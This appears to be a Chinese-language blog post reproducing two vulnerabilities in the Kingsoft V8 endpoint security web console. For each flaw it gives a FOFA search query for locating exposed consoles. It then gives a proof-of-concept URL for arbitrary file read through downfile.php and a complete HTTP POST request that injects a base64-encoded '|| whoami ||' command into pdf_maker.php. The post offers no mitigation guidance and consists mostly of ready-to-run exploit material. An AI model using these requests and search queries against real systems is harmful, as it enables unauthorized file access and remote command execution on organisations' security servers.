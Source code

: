 ```yaml
---
title: Kingsoft-K8-vulnerability
tags:
  - vuln
categories:
  - 漏洞复现
copyright: true
abbrlink: 6b98c3b0
date: 2021-07-12 23:52:57
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)
<!--more-->

### 金山 V8 終端安全系统任意文件读取漏洞

FOFA

`title="在线安装-V8+终端安全系统Web控制台"`

POC

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![img](https://z3.ax1x.com/2021/07/13/WFHozn.png)

### 金山V8 终端安全系统命令执行漏洞

​	原文：https://mp.weixin.qq.com/s/eQtyY3B8jwVL_n0FaGpQlA

![img](https://z3.ax1x.com/2021/07/13/WFH7Mq.png)

漏洞位置：

`http://xxx.xxx.xxx.xxx//inter/pdf_maker.php`

FOFA

`title="在线安装-V8+终端安全系统Web控制台"`

验证

http://x.x.x.x/inter/pdf_maker.php

url值为经过base64编码后的 `"|| whoami ||`

![img](https://z3.ax1x.com/2021/07/13/WFH5Gj.png)

请求包如下：

```sqlite
POST /inter/pdf_maker.php HTTP/1.1
Host: x.x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0; en_US) Gecko/20100101 Firefox/87.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=ic3v6dkhmff0ljn7pgusad43s0
X-Forwarded-For: 110.110.110.110
X-Originating-IP: 110.110.110.110
X-Remote-IP: 110.110.110.110
X-Remote-Addr: 110.110.110.110
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

url=Inx8IHdob2FtaSB8fA==&fileName=xxx
```

看看连接情况：

![img](https://z3.ax1x.com/2021/07/13/WFHIRs.png)

**Reference**

https://mp.weixin.qq.com/s/eQtyY3B8jwVL_n0FaGpQlA

https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E9%87%91%E5%B1%B1/%E9%87%91%E5%B1%B1%20V8%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%20pdf_maker.php%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

